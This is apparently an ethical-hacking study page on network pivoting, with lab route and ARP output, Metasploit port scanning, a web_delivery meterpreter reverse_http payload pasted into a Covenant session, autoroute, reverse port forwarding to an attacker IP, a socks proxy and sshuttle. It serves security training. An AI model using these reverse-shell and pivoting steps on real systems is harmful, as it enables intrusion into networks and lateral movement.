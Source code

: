 # Pivoting

## Metasploit

### Check routes on a win machine

- We need to see what other access has our target machine

- `route print`
  ```
  C:\Windows\system32>route print
  route print
  ===========================================================================
  Interface List
   12...08 00 27 ae c1 68 ......Intel(R) PRO/1000 MT Desktop Adapter
    1...........................Software Loopback Interface 1
  ===========================================================================

  IPv4 Route Table
  ===========================================================================
  Active Routes:
  Network Destination        Netmask          Gateway       Interface  Metric
            0.0.0.0          0.0.0.0     192.168.57.1        10.0.2.15     25
           10.0.2.0    255.255.255.0         On-link         10.0.2.15    281
          10.0.2.15  255.255.255.255         On-link         10.0.2.15    281
         10.0.2.255  255.255.255.255         On-link         10.0.2.15    281
          127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
          127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
    127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
          224.0.0.0        240.0.0.0         On-link         10.0.2.15    281
    255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
    255.255.255.255  255.255.255.255         On-link         10.0.2.15    281
  ===========================================================================
  Persistent Routes:
    None

  IPv6 Route Table
  ===========================================================================
  Active Routes:
   If Metric Network Destination      Gateway
    1    331 ::1/128                  On-link
   12    281 fe80::/64                On-link
   12    281 fe80::857:534f:3bb0:8fce/128
                                      On-link
    1    331 ff00::/8                 On-link
   12    281 ff00::/8                 On-link
  ===========================================================================
  Persistent Routes:
    None
  ```

- `arp -a`
  ```
  Interface: 10.0.2.15 --- 0xc
  Internet Address      Physical Address      Type
  10.0.2.3              08-00-27-35-94-d3     dynamic   
  10.0.2.4              08-00-27-fc-72-e9     dynamic   
  10.0.2.5              08-00-27-7f-90-90     dynamic   
  10.0.2.8              08-00-27-1d-d2-98     dynamic   
  10.0.2.255            ff-ff-ff-ff-ff-ff     static    
  192.168.57.1          52-54-00-12-35-00     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
  ```

- Now that we have other interesting IPs we can try to reach those new ones
- We can make a port scan on one of these IPs
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 10.0.2.5`
- `set ports 445`
- `run`
  ```
  [+] 10.0.2.5:             - 10.0.2.5:445 - TCP OPEN
  [*] 10.0.2.5:             - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```  
  We could of course have set more ports and this would be a cool nmap like tool.
  

## Reverse port forwarding and Session Passing with Metasploit having initial shell on Covenant

- We can assume that we have a shell with covenant for instance
- We generate a payload with metasploit through web delivery (more stealthy because it can pass as http traffic)
- `use exploit/multi/script/web_delivery`
- `set target 2` (for powershell)
- `set payload windows/x64/meterpreter/reverse_http`
- set lhost to your attacking machine
- sel an lport 
- `exploit -j`
- Now we can copy the payload and paste to our grunt in Covenant
- Metasploit should now have opened a session
- We can choose an interface with `ipconfig`
- `run autoroute -s 192.168.16.0/24`
- We can check it's been done using `run autoroute -p`
- We can now set up a reverse port forward
- `portfwd add -R -p 1234 -l 443 -L ATTACKING-MACHINE-IP`
- We can check it's been done using `portfwd`
- we can background our session with CTRL-Z 
- We will setup a socks proxy `use auxiliary/server/socks4a`
- We need to check our port in `/etc/proxychains4.conf`
- `set srvport 9050`
- we can check our jobs using `jobs`
- We can kill the web delivery one that we do not need anymore `jobs -k ID-OF-JOB`
- We now need to create a listener on covenant that will interact with the port forward set previously:
  `1      192.168.3.28:443  0.0.0.0:1234  Reverse`
- BindAddress can stay at 0.0.0.0, BindPort should be 443, connectPort should be 1234 and connect address is the ip of our victime machine.
- We should now be able to reach other machine in the network of the initial machine that has now route to our attacking machine using proxychains

## Shuttle

Let's say you got shell on a machine and this machine has access to another (let's call it machine 2).
Shuttle will allow you to access machine 2 from your network and act as a proxy much much less noisy than proxychains.  

```
sshuttle --listen 0.0.0.0 -e "ssh -i keyfile" -r user@IP-OF-YOUR-TARGET-MACHINE IP-OF-SUBNET-ACCESSIBLE-THROUGH-MACHINE2/24 -v
// example
sshuttle --listen 0.0.0.0 -e "ssh -i key" -r root@10.10.120.117 172.12.1.0/24 -v
```

## Resources

{% embed url="https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/" %} Amazing Resource about pivoting but only in french, it could def be read using google translate {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} TCM Security Academy - Practical Ethical Hacking - The Complete Course {% endembed %}
